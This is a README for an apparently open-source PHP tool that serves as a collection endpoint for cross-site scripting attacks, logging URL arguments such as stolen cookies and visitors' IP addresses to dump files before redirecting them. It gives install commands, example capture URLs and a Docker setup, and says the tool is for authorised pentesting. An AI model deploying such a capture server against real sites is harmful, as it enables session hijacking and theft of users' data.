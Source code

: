 # Simple XSS [![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/bambish/SimpleXSS/blob/master/LICENSE.md) [![Twitter](https://img.shields.io/badge/twitter-@bambishee-blue.svg)](https://twitter.com/bambishee)

Simple index.php template to perform XSS attack.

### Features
* Record each URL args
* Record client IP
* Instant redirection (static or dynamic)

### Prerequisites
* Web server (apache2, nginx, ...)
* PHP

### Installing
`In this guide I'm using apache2 on Debian 9. Obviously, you can use every web server and distro you want.`

**1.** Install apache2 and php
```bash
apt install apache2 php
```

**2.** Get the sources
```bash
git clone https://github.com/bambish/SimpleXSS
```

**3.** Move index.php in the web server root dir
```bash
mv SimpleXSS/index.php /var/www/html
```

**4.** Set the access right to write dump files
```bash
chown root:www-data /var/www/html
chmod g+w /var/www/html
```

### Usage
* Basic usage: **cookies**=12345&**arg**=67890
```http
http://127.0.0.1/index.php?cookies=12345&arg=67890
```
*You can use every `arbitrary args name`*

* Dynamic redirection: **redirect**=http://arbitrarywebsite.com/
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&redirect=http://github.com/
```
*You can `change or disable` the `default redirection` by editing or comment `$staticredirection` var in `index.php`*
*You can force the static redirection if you set `$allowgetredirection` to false in index.php*

* Write in specific dump file: **dumpfile**=arbitraryfile.txt
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&dumpfile=arbitraryfile.txt
```
*Be shure your `web server` have the right `access to create and edit` files at the root dir*
*The default dump file is `dumpfile.txt`*

### Deploy with Docker
```
docker run -dit --name XSS -v /path/to/host/web/root/dir/:/var/www/html/ --publish 80:80 fauria/lamp
```
*Adapt the root dir path if you don't use apache2 and give write access to your docker container*

### Warning
This XSS template was created to perform pentest or others legal stuffs (like bug bounty).
Using this XSS template against web site **without authorization** is **forbidden**. 

I'm not responsible of your usage of this XSS template.
**At your own risk**.